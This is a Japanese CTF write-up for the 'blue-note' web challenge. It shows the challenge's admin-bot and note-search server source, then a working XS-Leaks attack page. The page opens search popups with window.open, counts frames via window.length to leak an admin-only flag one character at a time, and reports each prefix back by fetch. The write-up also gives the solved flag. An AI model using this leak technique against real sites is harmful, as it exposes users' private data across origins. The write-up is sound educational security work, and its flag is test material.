


# blue-note:Web:100pts
🎷🎶  

[blue-note.tar.gz](blue-note.tar.gz)  

Challenge: [http://34.170.146.252:15993](http://34.170.146.252:15993), Admin bot: [http://34.170.146.252:59345](http://34.170.146.252:59345)  

Challenge: [http://34.170.146.252:22481](http://34.170.146.252:22481), Admin bot: [http://34.170.146.252:42319](http://34.170.146.252:42319)  

# Solution
ソースファイルとURLが二つ(バックアップインスタンスのURLも二つ)渡される。  
ChallengeのURLにアクセスすると、noteをサーチできるサイトのようだ。  
  
Admin BotがあるためXS系だろうとにらむ。  
bot.jsのソースは以下の通りであった。  
```js
import puppeteer from "puppeteer";

const APP_HOST = "web";
const APP_PORT = "3333";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/google-chrome-stable",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    const page = await context.newPage();
    await page.goto(`${APP_URL}/admin?secret=${process.env.ADMIN_SECRET}`, { timeout: 5 * 1000 });
    await page.goto(url, { timeout: 120 * 1000 });
    await page.click("button");
    await sleep(120 * 1000);
    await page.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
競技者が知りえない`secret`をクエリに付加して`/admin`にアクセスした後に、任意のURLを開いて長時間`sleep`している。  
謎のボタンクリックもあるが、時間から見てもXS-Leaksのようだ。  
Challengeのindex.jsソースも見ると、以下の通りであった。  
```js
import Fastify from "fastify";
import view from "@fastify/view";
import fastifyCookie from "@fastify/cookie";
import ejs from "ejs";

const fastify = Fastify();

const notes = [
  { id: 1, title: "Note 1", content: "This is a note", adminOnly: false },
  { id: 2, title: "Note 2", content: "This is another note", adminOnly: false },
  { id: 3, title: "Flag", content: process.env.FLAG, adminOnly: true },
];

fastify.register(fastifyCookie, {
  secret: process.env.COOKIE_SECRET,
  parseOptions: {},
});

fastify.register(view, {
  engine: { ejs },
  root: "views",
});

const isAdmin = (req) => {
  const { valid, value } = req.unsignCookie(req.cookies.authenticated || "");
  return valid && value === "true";
}

fastify.get("/", async (req, res) => {
  const q = String(req.query.q);
  if (!q)
    return res.viewAsync("index.ejs", { notes: {} });
  const filteredNotes = notes.filter(note =>
    (note.title.includes(q) || note.content.includes(q)) &&
    (!note.adminOnly || isAdmin(req))
  );
  return await res.viewAsync("index.ejs", { notes: filteredNotes });
});

fastify.get("/note/:id", async (req, res) => {
  const { id } = req.params;
  const note = notes.find(note => note.id === Number(id) && (!note.adminOnly || isAdmin(req)));
  if (!note)
    return res.redirect("/");
  return await res.viewAsync("note.ejs", { note });
});

fastify.get("/admin", async (req, res) => {
  const secret = String(req.query.secret);
  if (secret === process.env.ADMIN_SECRET) {
    res.setCookie("authenticated", "true", { path: "/", httpOnly: true, signed: true });
    return res.redirect("/");
  }
  res.code(401).send(":(");
});

fastify.listen({ port: 3333, host: "0.0.0.0" });
```
Botが最初にアクセスする`/admin`では、クエリ`secret`が正しい場合にのみ`authenticated`なるcookieが`true`に設定される(`httpOnly`で`signed`)。  
これはAdmin Bot用で、XSSなどで`secret`を取得するのは難しそうだ。  
`/`へのアクセスでは、クエリ`q`で`notes`を検索でき、`authenticated`なcookieが`true`(つまりAdmin Bot)である場合に`Flag`というnoteが検索結果に含まれる。  
もう一度ChallengeのURLへアクセスし、すべてのnoteに含まれるであろう文字`a`を検索してみる(`?q=a`となる)。  
  
Admin Botのみが検索できる`Flag`というnoteを除く、二件がヒットした。  
配布されたソースのindex.ejsを見てもわかるが、iframeで検索結果が埋め込まれるようだ。  
ここで`Flag`というnoteには`Alpaca{`という文字列が含まれているはずなので、`?q=Alpaca{`とするとAdmin Botの検索ではヒットするが我々の検索ではヒットしない。  
好きな文字列での検索をAdmin Botで行った際の、検索結果の有無が分かればフラグが一文字ずつ特定できそうだ。  
まとめると、Admin Botを自身のサイトのURLへアクセスさせ、検索を行わせたのちに、検索結果に`Flag`というnoteが含まれるかどうかを検知すればよい。  
別ページから参照できる`window.length`で、iframeの数を検知するXS-Leaksテクニックがよく知られている。  
以下のようなleak.pyで攻撃ページを立ち上げて、一文字ずつリークする。  
```python
from flask import Flask, request

app = Flask(__name__)

flag = "Alpaca{"
# flag = "Alpaca{B.EV4N5"


@app.route("/")
def top():
    return f"""
<!doctype html>
<html>
    <head>
        <title>XS-Leaks</title>
    </head>
    <body>
        <button id="satoki">button</button>
        <script>
            (async function() {{
                
                function sleep(ms) {{
                    return new Promise(resolve => setTimeout(resolve, ms));
                }}

                const baseUrl = 'http://web:3333/?q=';
                const alphabet = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!?-_{{}} ';
                var flag = '{flag}';

                for (let i = 0; i < alphabet.length; i += 5) {{
                    const chunk = alphabet.slice(i, i + 5);
                    const sites = [];

                    for (const ch of chunk) {{
                        const site = window.open(baseUrl + encodeURIComponent(flag + ch));
                        sites.push({{ site, ch }});
                    }}

                    await sleep(2000);

                    for (const {{ site, ch }} of sites) {{
                        if (site.length === 1) {{
                            flag += ch;
                            fetch('/?ok=' + flag);
                        }}
                        site.close();
                    }}
                }}
            }})();
        </script>
    </body>
</html>
"""


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
攻撃ページへの埋め込みiframeではcookieが付加されないので、`window.open`を用いる。  
また、buttonが無いとAdmin Botがボタンクリックできずにエラーで落ちるので注意する。  
Admin Botに報告すると以下のようなリクエストが届く。  
```
34.170.146.252 - - [01/Mar/2025 01:02:01] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 01:02:02] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 01:02:04] "GET /?ok=Alpaca{B HTTP/1.1" 200 -
```
`Alpaca{B`がリークできた。  
leak.pyの`flag`変数を更新して、Admin Botへの報告を繰り返す(自動化も可能だがBotがよく落ちる)。  
```
34.170.146.252 - - [01/Mar/2025 02:03:05] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 02:03:06] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 02:03:47] "GET /?ok=Alpaca{B.EV4N5} HTTP/1.1" 200 -
```
繰り返すとflagが得られた。  
ちなみに謎のボタンクリックはポップアップを許可するためにつけたらしい(作問者談)。  

## Alpaca{B.EV4N5}